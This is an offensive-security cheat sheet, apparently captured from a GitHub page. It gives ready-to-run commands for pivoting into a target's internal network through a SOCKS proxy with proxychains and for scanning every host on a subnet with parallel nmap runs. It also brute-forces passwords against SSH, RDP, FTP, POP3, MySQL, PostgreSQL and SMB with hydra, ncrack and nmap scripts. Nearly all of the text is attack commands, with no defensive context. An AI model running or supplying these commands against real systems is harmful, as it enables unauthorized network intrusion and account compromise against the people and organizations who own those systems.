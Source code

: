 ### Use ProxyChain to access any host on the target's network: 
```
echo -e "[ProxyList]\nsocks5 127.0.0.1 1080" >pc.conf
proxychains -f pc.conf -q curl ipinfo.io
```

### Scan the router at 192.168.1.1
```
proxychains -f pc.conf -q nmap -n -Pn -sV -F --open 192.168.1.1
```

### Start 10 nmaps in parallel:
```
seq 1 254 | xargs -P10 -I{} proxychains -f pc.conf -q nmap -n -Pn -sV -F --open 192.168.1.{} 
```

### SSH
```
nmap -p 22 --script ssh-brute --script-args ssh-brute.timeout=4s "$T"
ncrack -P "${PLIST}" --user root "ssh://${T}"
hydra -P "${PLIST}" -l root "ssh://$T"
```

### Remote Desktop Protocol / RDP
```
ncrack -P "${PLIST}" --user root -p3389 "${T}"
hydra -P "${PLIST}" -l root "rdp://$T"
```

### FTP
```
hydra -P "${PLIST}" -l user "ftp://$T"
```

### POP3 (email)
```
nmap -p110,995 --script pop3-brute "$T"
```

### MySQL
```
nmap -p3306 --script mysql-brute "$T"
```

### PostgreSQL
```
nmap -p5432 --script pgsql-brute "$T"
```

### SMB (windows)
```
nmap --script smb-brute "$T"
```
